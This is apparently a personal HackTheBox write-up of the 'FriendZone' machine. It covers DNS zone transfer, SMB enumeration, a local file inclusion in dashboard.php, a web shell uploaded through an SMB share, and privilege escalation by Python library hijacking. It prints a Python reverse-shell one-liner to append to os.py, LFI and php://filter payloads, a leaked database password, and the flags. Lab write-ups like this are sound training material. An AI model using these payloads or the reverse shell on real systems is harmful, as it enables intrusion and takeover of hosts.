

## Reconnaissance

### nmap 


### Gathering information on port 53 

- Port 53 is DNS 
- ISC BIND 9.11.3-1ubuntu1.2

### FTP 

- Port 21
- Versions: vsftpd 3.0.3

### SMB

- Port 139 / 445
- Versions: netbios-ssn Samba smbd 3.X-4.X (Port 139)
- Versions: netbios-ssn Samba smbd 4.7.6-Ubuntu (Port 445)

- enum4linux-ng result


### Information for web service 

- Port 80


- Port 443


- Web Source 
- Disclose an interesting path


- Directory Forcing(light)


- Check ```/js/js```
- Strange encoded string 
- Base64 can decode but still can't know what does it mean


- Check ```/admin```
- Nothing in here


- zone transfer 
```
host -t axfr friendzone.red 10.129.228.175
```
or 
```
dig @10.129.228.176 friendzone.red axfr
```


#### Check subdomain
1. Administrator1
- A login page


- Directory Forcing(light)


- Access ```/images``` ---> Success
- I can access it without credential


- Using the credential from smb server to login


- Check /dashboard.php


- Check /timestamp.php


2. hr


3. uploads
- Upload function 


- After upload a image file(ex. gif)
- Response successfully and a code
- The page will redirect to (```upload.php```)


- Directory bruteForcing (light)
- Only find ```files```, I think it's necessary to do again with other heavy wordlists 


- First, check ```files``` 
- It's empty


- With files path,check the image I just upload
- ```/files/1679424213```
- 404 Not Found


- Confirm the vulnerability on administrator1 site
- It might have a LFI vulnerability
- The original one is like that 
```
/dashboard.php?image_id=b.jpg&pagename=timestamp
```

- The timestamp page content will display on the right corner
- Try to do the LFI to read other file (ex. upload.php)
- Access ``` /dashboard.php?image_id=a.jpb&pagename=timestamp/../../uploads/upload```


- The content of upload.php also show on the right corner

## Exploit


- Using php wrapper to check the file content.
```php://filter/convert.base64-encode/resource=dashboard```


- But I can't use this method toread the file which I don't know the name or the file doesn't exist in the current directory

### WebShell through SMB

- Upload reverse shell to smb server 
```
smbclient -U '%' -N //10.129.228.177/Development
```


- Execute it from web 
```
/dashboard.php?image_id=b.jpg&pagename=/etc/Development/shell
```


- Listener get shell 


- Get user flag: ``` 16fff0bb6064b6343c903844aace99b3 ```


## Post Exploitation

- Check web directroy, find mysql config


- It contains db credential 
```
db_user = friend
db_pass = Agpyu12!0.213$
```


- Use this credential to SSH login 


- Get User ```friend ``` permission


- Using linpeas to check privilege escalation point 
- I find there is an interesting python file named ``` reporter.py```
- Here is the content, this code seems in progress


- Check ```pspy64s ``` , it will be execute regularly


### Python library hijacking

- After research, there is a privilege escalation trick called **Python Library Hijackin**
- Revealed that Python has a list of search paths for its libraries; meaning there is an opportunity for privilege escalation depending on mis-configurations of the system and how it’s users are using it.


- [Python Library Hijacking on Linux (with examples)](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
- [Privilege Escalation via Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)
### Privilege Escalation

- So let's find the order of priority for python 
```
python -c 'import sys; print "\n".join(sys.path)'
```


- Then the next part, I need to add the reverse code to existing ```os.py``` 
- Noted, I have tried to create new ```os.py``` to replace the old one, but it will failed
- So append the following code to existing ``` os.py```
```
import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.145",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```
- Then wait for the nc listener to get reverse shell 


- root flag: ```2502788fea3a947aecd6adb4248e40aa```


## Question

- How to port forward internal to external 

## Reference 

- [(Discussion)friendzone](https://forum.hackthebox.com/t/friendzone-hackthebox/1316/112)
- [(Writeup)firendzone 1](https://ivanitlearning.wordpress.com/2020/11/20/hackthebox-friendzone/)
- [(Writeup)firendzone 2](https://infosecwriteups.com/hackthebox-friendzone-9c52df249dcd)
- [(Writeup - YouTube)firendzone 3](https://www.youtube.com/watch?v=Zf8p49IzEEA)

### LFI

- [(GITHUB)LFI payload](https://github.com/payloadbox/rfi-lfi-payload-list)
- [(HackTrick)LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

### DNS

- [(HackTrick)DNS](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns)
- [DNS - dig](https://docstore.mik.ua/orelly/networking_2ndEd/dns/ch12_09.htm)
- [(HackTrick)SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- [(HackTrick)FTP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp)
- [(GITHUB)enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
- [Linux smbclient command](https://www.computerhope.com/unix/smbclien.htm)
- [smbclient](https://wangchujiang.com/linux-command/c/smbclient.html)

### Python Library Hijacking

- [Python Library Hijacking on Linux (with examples)](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
- [Privilege Escalation via Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)
- [Linux Privilege Escalation: Python Library Hijacking](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

### Others

- [GTFObins](https://gtfobins.github.io/#exim4%20)
- [Reverse Shell Generator](https://www.revshells.com/)
- [SearchSploit Update](https://www.oreilly.com/library/view/kali-linux-cookbook/9781784390303/4e9c5a55-789a-4ca0-be86-f08b84f00e5e.xhtml)


### Possible Privilege Escalation CVE

- [(Exploit DB)Exim 4.87 - 4.91 - Local Privilege Escalation](https://www.exploit-db.com/exploits/46996)
- [(GITHUB)CVE-2019-10149 -1](https://github.com/Diefunction/CVE-2019-10149)
- [(GITHUB)CVE-2019-10149 -2](https://github.com/MNEMO-CERT/PoC--CVE-2019-10149_Exim/blob/master/PoC_CVE-2019-10149.py)

#### SSH Port Forwarding

- [How to Use SSH Port Forwarding](https://phoenixnap.com/kb/ssh-port-forwarding)
- [Port Forwarding – Linux Privilege Escalation](https://juggernaut-sec.com/port-forwarding-lpe/)

###### tags: `HackTheBox` `linux` `Easy` `LFI` `SMB` `SMBClient` `Python` `Python Library Hijacking` `SSH PortForwarding` `Exim4`